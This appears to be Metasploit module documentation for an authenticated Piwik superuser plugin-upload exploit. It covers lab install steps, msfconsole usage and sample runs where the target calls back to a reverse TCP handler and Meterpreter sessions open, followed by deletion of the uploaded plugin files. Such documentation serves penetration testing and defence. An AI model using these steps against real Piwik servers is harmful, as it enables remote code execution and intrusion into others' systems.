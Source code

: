 ## Vulnerable Application

Piwik can be downloaded from the official site [piwik.org](https://piwik.org).
Older builds are also available from [builds.piwik.org](https://builds.piwik.org/).

This module was tested with Piwik versions 2.14.0, 2.16.0, 2.17.1 and 3.0.1

## Verification Steps

### Install Piwik (Debian/Ubuntu)
1. Install dependencies

    ```
    sudo apt install apache2 php5 php5-mysql \
      libapache2-mod-php5 mariadb-server unzip php5-gd php5-curl
    ```
2. Download latest version of piwik (or the version of your choice from [builds.piwik.org](https://builds.piwik.org/))

    ```
    wget https://builds.piwik.org/piwik.zip
    ```

3. Unzip Piwik into webroot

    ```
    unzip -d /var/www/html/ piwik.zip
    ```

4. Make the webserver user the owner of piwik

    ```
    chown -R www-data:www-data /var/www/html/
    ```

5. Create a new user and database for piwik. If you want to run multiple versions in parallel use a different database for each install (user is optional).
This example assumes your MySQL root password is **password**

    ```
    mysql -u root -ppassword -e "CREATE DATABASE piwik;"
    mysql -u root -ppassword -e "CREATE USER piwik@localhost;"
    mysql -u root -ppassword -e "SET PASSWORD FOR piwik@localhost=PASSWORD('piwik');"
    mysql -u root -ppassword -e "GRANT ALL PRIVILEGES ON piwik.* TO piwik@localhost;"
    mysql -u root -ppassword -e "FLUSH PRIVILEGES;"
    ```

6. Add a config setting to PHP to stop piwik complaining about it

    ```
    echo always_populate_raw_post_data=-1 > /etc/php5/apache2/conf.d/99-piwik.ini
    ```

7. Finally restart Apache HTTPD

    ```
    service apache2 restart
    ```

### Pwn Piwik
1. Install the application (see installation steps above)
2. Start msfconsole
3. Do: ```use [module path]```
4. Do: ```set RHOST [Domain/IP]```
5. Do: ```set RPORT [Port]```
6. Do: ```set TARGETURI [installation directory]```
7. Do: ```set SSL [True/False]```
8. Do: ```set USERNAME [valid Piwik superuser credentials]```
9. Do: ```set PASSWORD [valid Piwik superuser credentials]```
10. Do: ```run```
11. You should get a shell.

## Options

**TARGETURI**

Path of the Piwik installation.

**USERNAME**

Valid username for a Piwik superuser account.

**PASSWORD**

Valid password for a Piwik superuser account.

## Scenarios

### Run with a installation of Piwik 3.0.1

```
msf > use exploit/unix/webapp/piwik_superuser_plugin_upload
msf exploit(piwik_superuser_plugin_upload) > set TARGETURI /piwik/
TARGETURI => /piwik/
msf exploit(piwik_superuser_plugin_upload) > set RHOST 192.168.56.2
RHOST => 192.168.56.2
msf exploit(piwik_superuser_plugin_upload) > set username firefart
username => firefart
msf exploit(piwik_superuser_plugin_upload) > set password firefart
password => firefart
msf exploit(piwik_superuser_plugin_upload) > options

Module options (exploit/unix/webapp/piwik_superuser_plugin_upload):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD   firefart         yes       The Piwik password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST      192.168.56.2     yes       The target address
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /piwik/          yes       The URI path of the Piwik installation
   USERNAME   firefart         yes       The Piwik username to authenticate with
   VHOST                       no        HTTP server virtual host


Exploit target:

   Id  Name
   --  ----
   0   Piwik

msf exploit(piwik_superuser_plugin_upload) > run

[*] Started reverse TCP handler on 192.168.56.1:4444
[*] Trying to detect if target is running a supported version of piwik
[+] Detected Piwik installation
[*] Authenticating with Piwik using firefart:firefart...
[+] Authenticated with Piwik
[*] Checking if user firefart has superuser access
[+] User firefart has superuser access
[*] Trying to get Piwik version
[+] Detected Piwik version 3.0.1
[*] Checking if Marketplace plugin is active
[+] Seems like the Marketplace plugin is already enabled
[*] Generating plugin
[+] Plugin SDsiXxPMgt generated
[*] Uploading plugin
[*] Activating plugin and triggering payload
[*] Sending stage (33986 bytes) to 192.168.56.2
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.2:43169) at 2017-02-13 23:03:29 +0100
[+] Deleted plugins/SDsiXxPMgt/plugin.json
[+] Deleted plugins/SDsiXxPMgt/SDsiXxPMgt.php

meterpreter > sysinfo
Computer    : web
OS          : Linux web 3.16.0-4-amd64 #1 SMP Debian 3.16.39-1 (2016-12-30) x86_64
Meterpreter : php/linux
```

### Run against Piwik 2.x

```
msf exploit(piwik_superuser_plugin_upload) > run

[*] Started reverse TCP handler on 192.168.56.1:4444
[*] Trying to detect if target is running a supported version of piwik
[+] Detected Piwik installation
[*] Authenticating with Piwik using firefart:firefart...
[+] Authenticated with Piwik
[*] Checking if user firefart has superuser access
[+] User firefart has superuser access
[*] Trying to get Piwik version
[+] Detected Piwik version 2.14.0
[*] Generating plugin
[+] Plugin zZETuwYkzB generated
[*] Uploading plugin
[*] Activating plugin and triggering payload
[*] Sending stage (33986 bytes) to 192.168.56.2
[*] Meterpreter session 2 opened (192.168.56.1:4444 -> 192.168.56.2:43182) at 2017-02-13 23:05:27 +0100
[+] Deleted plugins/zZETuwYkzB/plugin.json
[+] Deleted plugins/zZETuwYkzB/zZETuwYkzB.php
```

### Sample output of running with invalid credentials

```
msf exploit(piwik_superuser_plugin_upload) > run

[*] Started reverse TCP handler on 192.168.56.1:4444
[*] Trying to detect if target is running a supported version of piwik
[+] Detected Piwik installation
[*] Authenticating with Piwik using firefart:test...
[-] Exploit aborted due to failure: no-access: Failed to authenticate with Piwik
[*] Exploit completed, but no session was created.
```

### Sample output of running with non superuser user

```
msf exploit(piwik_superuser_plugin_upload) > run

[*] Started reverse TCP handler on 192.168.56.1:4444
[*] Trying to detect if target is running a supported version of piwik
[+] Detected Piwik installation
[*] Authenticating with Piwik using test:firefart...
[+] Authenticated with Piwik
[*] Checking if user test has superuser access
[-] Exploit aborted due to failure: no-access: Looks like user test has no superuser access
[*] Exploit completed, but no session was created.
```

### Sample output of Piwik 3.x with disabled Marketplace plugin

```
msf exploit(piwik_superuser_plugin_upload) > run

[*] Started reverse TCP handler on 192.168.56.1:4444
[*] Trying to detect if target is running a supported version of piwik
[+] Detected Piwik installation
[*] Authenticating with Piwik using firefart:firefart...
[+] Authenticated with Piwik
[*] Checking if user firefart has superuser access
[+] User firefart has superuser access
[*] Trying to get Piwik version
[+] Detected Piwik version 3.0.1
[*] Checking if Marketplace plugin is active
[*] Marketplace plugin is not enabled, trying to enable it
[+] Marketplace plugin enabled
[*] Generating plugin
[+] Plugin TuwgJygjEu generated
[*] Uploading plugin
[*] Activating plugin and triggering payload
[*] Sending stage (33986 bytes) to 192.168.56.2
[*] Meterpreter session 3 opened (192.168.56.1:4444 -> 192.168.56.2:43246) at 2017-02-13 23:08:36 +0100
[+] Deleted plugins/TuwgJygjEu/plugin.json
[+] Deleted plugins/TuwgJygjEu/TuwgJygjEu.php
```
